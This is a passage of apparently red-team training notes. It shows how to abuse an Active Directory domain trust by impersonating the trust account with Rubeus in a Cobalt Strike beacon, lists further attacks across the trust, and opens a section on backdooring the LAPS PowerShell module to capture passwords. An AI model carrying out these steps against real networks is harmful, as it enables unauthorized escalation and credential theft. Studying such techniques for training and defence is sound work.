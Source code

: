 ```
```

`[Out]` and `[Out-1]` are the "new" and "old" passwords respectively (they're the same here because 30 days hasn't elapsed since the creation of the trust).  In most cases, the current [Out] key is the one you want.  In addition, there is also a "trust account" which is created in the "trusted" domain, with the name of the "trusting" domain.  For instance, if we get all the user accounts in the DEV domain, we'll see _CYBER\$_ and _STUDIO\$_, which are the trust accounts for those respective domain trusts.

[[ADSearch#Get All Object with "user" Category]]

```
[*] TOTAL NUMBER OF SEARCH RESULTS: 11

        [...]
	[+] cn : CYBER$
	[+] cn : STUDIO$
```

This means that the MSP domain will have a trust account called CYBER$, even though we can't enumerate across the trust to confirm it.  This is the account we must impersonate to request Kerberos tickets across the trust.

[[Rubeus#asktgt#Request with RC4]]

This TGT can now be used to interact with the domain.

```
beacon> run klist
beacon> powershell Get-Domain -Domain msp.org

Forest                  : msp.org
DomainControllers       : {ad.msp.org}
Children                : {}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  : 
PdcRoleOwner            : ad.msp.org
RidRoleOwner            : ad.msp.org
InfrastructureRoleOwner : ad.msp.org
Name                    : msp.org
```

This account is obviously not a domain admin, but there are multiple abuse primitives that can now be performed across the trust to elevate privileges - including kerberoasting, ASREPRoasting, RBCD, and vulnerable certificate templates.


## LAPS Backdoors

---

There are some techniques that we can leverage to backdoor the LAPS administrative tooling and obtain a copy of passwords when viewed by an admin.  This module will demonstrate this idea using the LAPS PowerShell cmdlet `Get-AdmPwdPassword`.  If installed on a machine, the LAPS PowerShell modules can be found under `C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS`.
